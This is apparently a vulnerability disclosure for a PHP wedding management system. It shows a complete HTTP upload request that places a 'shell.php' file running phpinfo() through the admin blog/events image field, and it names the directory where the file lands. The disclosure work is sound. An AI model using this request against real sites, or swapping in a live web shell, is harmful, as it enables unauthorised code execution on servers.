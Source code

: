 # WeddingManagement System v1.0 by codeastr.com has arbitrary code execution (RCE)

vendor: https://codeastro.com/wedding-management-system-in-php-with-source-code/

Vulnerability url: http://ip/Wedding-Management/admin/blog_events_edit.php?id=31

Loophole location：There is an arbitrary file upload vulnerability (RCE) in the picture upload point of the "blog_events_edit.php" file of the "blog&events" module in the background management system

Request package for file upload：

```sql
POST /Wedding-Management/admin/blog_events_edit.php?id=31 HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.1.19/Wedding-Management/admin/blog_events_edit.php?id=31
Cookie: PHPSESSID=0m2td1md252hlnr3nsbmc5ss99
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------341485402087
Content-Length: 1083

-----------------------------341485402087
Content-Disposition: form-data; name="submit"


-----------------------------341485402087
Content-Disposition: form-data; name="wedding_type"

Elite
-----------------------------341485402087
Content-Disposition: form-data; name="title"

MR. & MRS. Atwood
-----------------------------341485402087
Content-Disposition: form-data; name="description"

92-acre Tuscan-inspired estate offering indoor and outdoor event spaces, as well as a Four Diamond inn and renowned restaurant.
-----------------------------341485402087
Content-Disposition: form-data; name="preview_image"; filename="shell.php"
Content-Type: application/octet-stream

JFJF
<?php phpinfo();?>
-----------------------------341485402087
Content-Disposition: form-data; name="wedding_date"

03/24/2022
-----------------------------341485402087
Content-Disposition: form-data; name="location"

Vintners Resort
-----------------------------341485402087
Content-Disposition: form-data; name="status"

1
-----------------------------341485402087--
```

The files will be uploaded to this directory \admin\upload\events\

![image](https://user-images.githubusercontent.com/54017627/167978399-9f9e1634-fe87-4af3-aac5-b97bcc255535.png)

We visited the directory of the file in the browser and found that the code had been executed

![image](https://user-images.githubusercontent.com/54017627/167978515-e6e8a140-c010-4d75-82d9-8271832c4d8c.png)


